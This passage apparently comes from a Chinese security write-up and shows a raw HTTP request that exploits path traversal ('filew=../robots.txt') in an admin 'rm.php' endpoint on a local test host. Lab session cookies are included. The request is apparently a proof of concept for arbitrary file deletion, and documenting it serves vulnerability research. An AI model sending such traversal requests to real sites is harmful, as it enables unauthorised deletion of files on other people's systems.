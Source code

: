 ```plain
GET /admin/rm.php?filew=../robots.txt HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: keep-alive
Cookie: deviceid=1708223329907; rockkefu_deviceid=1708240409582; BJYADMIN=7ovdcsf3httsj0r6fbu10mk7l2; adminToken=a66abb5684c45962d887564f08346e8d; userName=test; userToken=05a671c66aefea124cc08b76ea6d30bb; dark_theme=root; PHPSESSID=dmef2eisl4bp3ampglvbukge3r; username=admin; passid=21mdyjggenf1sns6rbsgd1h0b3mo7bv2p1ki2p7ijl7sf1ywehnm9qhttv0absbl
Host: 127.0.0.1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
referer: http://127.0.0.1/admin/rm.php?type=img
sec-ch-ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1
```

[![](assets/1711465840-a09ba9a20718e7fed907b6e6ae76458b.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20240324205931-5addd7e6-e9de-1.gif)
